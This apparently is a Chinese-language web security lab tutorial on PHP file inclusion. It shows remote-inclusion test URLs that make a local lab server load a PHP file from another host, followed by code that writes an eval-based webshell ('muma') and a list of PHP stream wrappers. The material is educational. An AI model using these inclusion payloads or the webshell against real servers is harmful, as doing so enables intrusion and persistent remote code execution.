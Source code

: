 结果运行显示![](D:\WEBSecurity\Web\image\file1.png)

```
//试探,如果能加载则存在文件包含漏洞
http://192.168.2.128/Security/fileinc.php?filename=http://www.woniunote.com/index.php
#远程
http://192.168.2.128/Security/fileinc.php?filename=http://192.168.2.129/learn/temp/mm.php?code=phpinfo();

http://192.168.2.128/Security/fileinc.php?filename=./shell.txt&code=phpinfo();
```

### 三、利用包含文件写木马

前提双方的防火墙都关闭了

```
//在任意服务器上写入一段写木马程序
file_put_contents('temp/muma.php','<?php
    @eval($_GET['code']);

?>')
file_put_contents('temp/muma.txt','<?php
    @eval($_GET['code']);

?>')

http://192.168.2.128/Security/fileinc.php?filename='http://localhost/learn/shell.txt'
//此时muma.php或muma.txt写入本地服务器，再进行利用即可

//此时再利用包含漏洞进行包含，但是code参数无法正确传入
http://192.168.2.128/Security/fileinc.php?filename=temp/muma.txt?code=phpinfo()

//URL地址已经有参数了，所以只需要使用&符
http://192.168.2.128/Security/fileinc.php?filename=temp/muma.txt&code=phpinfo()

```

## 0x02 PHP伪协议利用

### 一、伪协议介绍

PHP支持以下几种协议：

```
file:// -访问本地文件系统
http:// -访问HTTP（s）网址
ftp:// -访问FTP(s)URLs
php:// -访问各个输入/输出流（I/O streams）
zlib:// -压缩流
data:// -数据(RFC 2397)
glob:// -查找匹配的文件路径模式
phar:// -php归档
ssh2:// -Secure Shell 2
rar:// -RAR
ogg:// -音频流
expect:// -处理交互式的流
```
